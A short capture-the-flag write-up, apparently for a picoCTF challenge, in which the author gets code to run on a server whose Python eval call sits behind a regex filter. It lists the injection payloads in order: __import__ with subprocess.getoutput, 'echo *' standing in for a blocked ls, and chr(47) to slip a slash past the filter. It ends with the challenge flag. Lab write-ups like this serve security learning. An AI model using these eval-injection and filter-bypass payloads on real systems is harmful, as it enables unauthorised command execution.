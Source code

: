 pretty fun challenge. so the input is passed through regex and then put into `eval`. Using this knowledge you can find ways to execute code on the system.

To start several certain characters will not work. So you will get failed attempts. I first started with finding a way to get the server to sleep.

inputting:

```

__import__('time').sleep(5)
```

got me to sleep the server. Great!

okay lets try to execute stuff on the command line, lets try:

```
__import__('os').system('echo hello')
```

shit it is blocked, hmm lets try this:

```
__import__('subprocess').getoutput('echo hello')
```

success! the server said hello

kk lets now try

```
__import__('subprocess').getoutput('ls')

```

FML it `ls` is blocked. Okay lets do this then:

```
__import__('subprocess').getoutput('echo *')
```

we can now see files! so the hint reveals we have to go to the root
may let do

```
__import__('subprocess').getoutput('cd / && head flag*')
```

no luck, maybe I can find a way to input characters using a trick?

```
__import__('subprocess').getoutput("cd " + chr(47) + "&& head flag*")
```

DONE!

```
picoCTF{D0nt_Use_Unsecure_f@nctions3bc5aa53}
```
